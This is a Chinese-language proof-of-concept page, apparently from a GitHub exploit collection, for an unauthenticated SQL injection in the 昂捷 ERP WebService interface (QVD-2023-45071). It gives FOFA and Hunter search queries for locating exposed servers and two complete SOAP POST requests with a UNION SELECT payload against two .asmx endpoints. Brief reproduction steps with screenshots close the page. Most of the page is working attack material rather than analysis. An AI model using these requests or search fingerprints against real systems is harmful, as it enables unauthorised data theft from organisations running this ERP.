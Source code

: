 # 昂捷ERP WebService接口 SQL注入漏洞(QVD-2023-45071)

## 昂捷ERP-WebService接口-SQL注入漏洞(QVD-2023-45071)
 昂捷ERP WebService接口 存在SQL注入漏洞，未经身份验证的攻击者可以利用该漏洞泄露系统敏感信息。 

## fofa
```
body="CheckSilverlightInstalled"
```

## hunter
```
web.body="CheckSilverlightInstalled"
```

## SQL注入点1 /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx
```
POST /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx HTTP/1.1
Host: xxx.xxx.xxx.xxx:8008
Content-Type: text/xml; 
charset=utf-8
Content-Length: 482

SOAPAction: "http://tempuri.org/GetOSpById"
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><GetOSpById xmlns="http://tempuri.org/"><sId>string' UNION SELECT NULL,NULL,NULL,NULL,(select @@version),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- YQmj</sId></GetOSpById></soap:Body></soap:Envelope>
```

##  SQL注入点2 /EnjoyRMIS_WS/WS/Hr/CWSHr.asmx
```
POST /EnjoyRMIS_WS/WS/Hr/CWSHr.asmx HTTP/1.1
Host: xxx.xxx.xxx.xxx:8008
Content-Type: text/xml; 
charset=utf-8
Content-Length: 482

SOAPAction: "http://tempuri.org/GetOSpById"
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><GetOSpById xmlns="http://tempuri.org/"><sId>string' UNION SELECT NULL,NULL,NULL,NULL,(select @@version),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- YQmj</sId></GetOSpById></soap:Body></soap:Envelope>
```

## 漏洞复现
访问漏洞点存在的地址

http://xxx.xxx.xxx.xxx:9012/EnjoyRMIS_WS/WS/Hr/CWSHr.asmx

在地址后面加上?wsdl

http://xxx.xxx.xxx.xxx:8123/EnjoyRMIS_WS/WS/Hr/CWSHr.asmx?wsdl

![image](https://github.com/wy876/POC/assets/139549762/a0b95351-845e-49c5-ba1e-8831cf85df9e)

使用wsdler拓展工具解析

![image](https://github.com/wy876/POC/assets/139549762/0537ac47-e89a-41fa-b925-cca83fba75ae)

解析完成之后，即可对这些接口进行测试

![image](https://github.com/wy876/POC/assets/139549762/c1206032-8405-40e4-8ab4-69a68ee22d7f)


